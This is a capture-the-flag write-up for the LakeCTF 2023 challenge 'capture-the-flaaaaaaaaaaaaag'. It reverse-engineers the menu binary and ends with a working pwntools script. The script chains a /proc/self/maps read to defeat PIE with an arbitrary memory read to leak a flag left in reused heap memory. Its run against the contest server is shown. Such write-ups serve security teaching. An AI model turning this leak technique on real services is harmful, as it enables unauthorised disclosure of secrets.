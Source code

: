 # 2023 LakeCTF - capture-the-flaaaaaaaaaaaaag

This binary allows only 4 actions to execute on the menu:
```
$ cat flaaaaaaaaaaaaag 
flag{fake}
$ ./capture_the_flaaaaaaaaaaaaag 
At polygl0ts we are very cool, so you get the first flaaaaaaaaaaaaag character for free : f
Figure out the rest yourself !
You have 4 action(s) left
1 - read from file
2 - read from memory
3 - send feedback
> 
```

We can: read from file, from memory or send feedback. We reverse engineer to find potential vulnerabilities.

Here is reading from file:
```
  if (choice == 1) {
    printf("filename > ");
    n = read(stdin->_fileno,filename,0x10);
    n_int = (int)n;
    if (n_int < 1) {
      filename._0_8_ = filename._0_8_ & 0xffffffffffffff00;
    }
    else {
      filename[n_int + -1] = '\0';
    }
    fptr = fopen(filename,"r");
    if (fptr == (FILE *)0x0) {
      printf("cannot fopen %s\n",filename);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    pcVar2 = fgets(fcontent,0x10,fptr);
    if (pcVar2 == (char *)0x0) {
      printf("cannot fgets %s\n",filename);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    iVar1 = fclose(fptr);
    if (iVar1 != 0) {
      printf("cannot fclose %s\n",filename);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    puts(fcontent);
  }
```

Reading from memory:
```
  else if (choice == 2) {
    address = (char *)0x0;
    printf("address > ");
    __isoc99_scanf(&DAT_00102098,&address);
    puts(address);
  }
```

Sending feedback:
```
  else {
    if (choice != 3) {
      puts("invalid choice");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    local_48 = 0;
    if (feedback == 0) {
      puts("please share your thoughts with us");
      printf("> ");
      getline((char **)&feedback,(size_t *)&DAT_00104058,stdin);
      puts("thank you !");
    }
    else {
      puts("sorry, but that\'s enough criticism for today !");
    }
  }
```

One very important point here is that the `flaaaaaaaaaaaaag` file is read when binary starts to print the first letter:
```
  local_18 = fopen("flaaaaaaaaaaaaag","r");
  if (local_18 == (FILE *)0x0) {
    puts("cannot fopen the flaaaaaaaaaaaaag");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  sVar2 = fread(&local_1d,1,1,local_18);
  if (sVar2 == 0) {
    puts("cannot fread the flaaaaaaaaaaaaag");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  iVar1 = fclose(local_18);
  if (iVar1 != 0) {
    puts("cannot fclose the flaaaaaaaaaaaaag");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("At polygl0ts we are very cool, so you get the first flaaaaaaaaaaaaag character for free : %c\n"
         ,(ulong)(uint)(int)local_1d);
```

Additionally, reading the `flaaaaaaaaaaaaag` file through option one is not possible since only 15 bytes of input is read:
```
$ ./capture_the_flaaaaaaaaaaaaag 
At polygl0ts we are very cool, so you get the first flaaaaaaaaaaaaag character for free : f
Figure out the rest yourself !
You have 4 action(s) left
1 - read from file
2 - read from memory
3 - send feedback
> 1
filename > flaaaaaaaaaaaaag
cannot fopen flaaaaaaaaaaaaa
```

## Leaking the flag contents from memory

The binary is quite hardened:
```
pwndbg> checksec
[*] '/home/vm/Downloads/lakectf/ctflaaag/capture_the_flaaaaaaaaaaaaag'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Due to its security controls, it is not really expected that we should overflow something and simply pop a shell. Option to read from memory, along with the flag contents being loaded on startup, kind of hints that we need to leak the flag contents.

Here are some circumstances that were observed during binary analysis:
- binary is reusing heap memory for `feedback` variable
  - memory reuse means that the flag is initially stored in the `feedback` memory region and overwritten later when "sending feedback"
  - if we send an empty feedback, we will overwrite at most 2 bytes of the flag which are known to us (all flags start with `EPFL`), the rest of the flag stays put
- due to PIE we need a leak
  - we can read from a file, meaning that we can also read `/proc/self/maps`, effectively leaking the first memory region address
- we can leak the flag by using the "read from memory" option, but we need to obtain an address somehow
  - the `feedback` variable is stored in the `.bss` region of the binary, meaning that we can at any time access the memory to where the `feedback` variable is pointing to

Due to these circumstances we can perform the following chain of actions:
1. give feedback first and send an empty string, overwriting just the first two bytes of the flag (`\n\x00`)
2. read `/proc/self/maps` and leak the first memory region address
3. when we have the first memory region address, we know where `.bss` section is (the offset is fixed to 0x4000)
4. inside `.bss` section there is `(char*)feedback` variable on a fixed offset of 0x50, pointing to our feedback (flag contents if we do not overwrite)
5. obtaining the `feedback` pointer value, we can request to "read from memory" and leak the flag

```
import sys

from pwn import *

if len(sys.argv) == 1:
    r = process("./capture_the_flaaaaaaaaaaaaag")
elif len(sys.argv) == 2:
    r = remote("chall.polygl0ts.ch", 9003)
else:
    r = gdb.debug("./capture_the_flaaaaaaaaaaaaag", '''set follow-fork-mode parent
b main
b menu
continue
''')

# give empty feedback first
r.recvuntil(b"> ")
r.sendline(b"3")
r.recvuntil(b"> ")
r.sendline(b"")

# read /proc/self/maps
r.recvuntil(b"> ")
r.sendline(b"1")
r.recvuntil(b"> ")
r.sendline(b"/proc/self/maps")
# retrieve start address / first memory region
start = int(r.recvline().split(b"-")[0], 16)
print(hex(start))

# read from memory - feedback pointer value
r.recvuntil(b"> ")
r.sendline(b"2")
r.recvuntil(b"> ")
bss = start + 0x4000
print(hex(bss))
feedback = bss + 0x50
print(hex(feedback))
r.sendline(hex(feedback).encode())

# the value we get is the address of where the flag was stored
flag = int.from_bytes(r.recvline()[:-1], 'little')

# read from memory again - this time where the flag was stored, without the first few bytes
r.recvuntil(b"> ")
r.sendline(b"2")
r.recvuntil(b"> ")
r.sendline(hex(flag+3).encode())
r.interactive()
```

Executing the script renders the flag (or at least its most important part):
```
$ python3 xpl.py a
[+] Opening connection to chall.polygl0ts.ch on port 9003: Done
0x55b46a946000
0x55b46a94a000
0x55b46a94a050
[*] Switching to interactive mode
L{why_h4ve_a_s1ngle_ch4r4ct3r_wh3n_fread_gives_you_7he_wh0l3_fl4g}

no actions left :(
[*] Got EOF while reading in interactive
$ 
```
